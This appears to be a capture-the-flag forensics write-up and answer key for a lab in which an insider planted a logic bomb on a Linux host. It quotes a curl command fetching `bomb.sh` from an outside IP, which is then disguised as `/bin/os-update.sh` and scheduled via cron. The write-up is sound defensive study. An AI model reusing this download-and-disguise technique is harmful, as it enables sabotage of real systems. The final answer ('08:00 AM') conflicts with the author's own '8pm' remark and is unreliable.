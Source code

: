 # Disgruntled [here](https://tryhackme.com/room/disgruntled)

## Scenario
An IT department employee at CyberT, a client company, was arrested for running a phishing operation. CyberT has tasked us with investigating the employee's last-used machine to determine if any malicious actions were performed on their assets. The investigation focuses on privileged commands, user account activity, file operations, and persistence mechanisms to uncover a potential "logic bomb" designed to harm the company's systems.

## Investigation Approach
1. **Initial Access and User Identification**:
   - Logged in as the `root` user on the target machine.
   - Checked `/etc/passwd` to identify user accounts, expecting the disgruntled IT employee to use a non-root account (`cybert` or `itadmin`) to avoid suspicion. Found three users: `ubuntu`, `cybert`, and `itadmin`. Focused on `cybert` as the likely primary account and `itadmin` for suspicious activity.
   - **Screenshot**: ![User Accounts](screenshots/1.png)

2. **Privileged Commands**:
   - Examined `/var/log/auth.log*` for `sudo` commands executed by `cybert` to confirm the installation of the authorized service (`dokuwiki`). Also checked `cybert`’s `~/.bash_history` for related commands to identify the command and working directory.

3. **User and Privilege Escalation**:
   - Grep’d `useradd` or `adduser` in `cybert`’s `~/.bash_history` to find new user accounts created post-installation.
   - Searched `auth.log*` for `visudo` to detect `sudoers` file updates, focusing on timestamps after the `dokuwiki` installation to confirm privilege escalation.
   - Investigated `itadmin`’s `~/.bash_history` for `vi` commands to identify script creation or editing.

4. **File Analysis**:
   - Grep’d `sh` in `itadmin`’s `~/.bash_history` to find the creation command for `bomb.sh`, which no longer exists.
   - Checked `itadmin`’s `~/.viminfo` to trace file renaming or movement, identifying the new location of `bomb.sh`.
   - Used `ls -la --full-time` to retrieve the modification time of the renamed file.
   - Analyzed the script’s contents to identify files created upon execution.

5. **Persistence Mechanisms**:
   - Inspected `/etc/crontab` to find scheduled tasks, confirming the execution time of the malicious script.

## Challenge Questions and Findings

### 1. Privileged Command for Package Installation
**Question**: The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

**Answer**: `/usr/bin/apt install dokuwiki`

**Screenshot**: ![Privileged Command](screenshots/2.png)

### 2. Present Working Directory (PWD) for Command
**Question**: What was the present working directory (PWD) when the previous command was run?

**Answer**: `/home/cybert`

**Screenshot**: ![PWD](screenshots/2.png)

### 3. User Created After Package Installation
**Question**: Which user was created after the package from the previous task was installed?

**Answer**: `it-admin`

**Screenshot**: ![User Creation](screenshots/3.png)

### 4. Sudoers File Update Time
**Question**: A user was then later given sudo privileges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)

**Answer**: `Dec 28 06:27:34`

**Screenshot**: ![Sudoers Update](screenshots/4.png)

### 5. Script File Opened in vi
**Question**: A script file was opened using the "vi" text editor. What is the name of this file?

**Answer**: `bomb.sh`

**Screenshot**: ![Script File](screenshots/5.png)

### 6. Command That Created bomb.sh
**Question**: What is the command used that created the file `bomb.sh`?

**Answer**: `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

**Screenshot**: ![Create Command](screenshots/6.png)

### 7. Current Full Path of Renamed File
**Question**: The file was renamed and moved to a different directory. What is the full path of this file now?

**Answer**: `/bin/os-update.sh`

**Screenshot**: ![Renamed File](screenshots/7.png)

### 8. Last Modified Time of Renamed File
**Question**: When was the file from the previous question last modified? (Format: Month Day HH:MM)

**Answer**: `Dec 28 06:29`

**Screenshot**: ![Modification Time](screenshots/8.png)

### 9. File Created by Script Execution
**Question**: What is the name of the file that will get created when the file from the first question executes?

**Answer**: `goodbye.txt`

**Screenshot**: ![Created File](screenshots/9.png)

### 10. Trigger Time of Malicious File
**Question**: At what time will the malicious file trigger? (Format: HH:MM AM/PM) (20 will be 8pm lol, sorry im severly sleep deprived)

**Answer**: `08:00 AM`

**Screenshot**: ![Cron Schedule](screenshots/10.png)


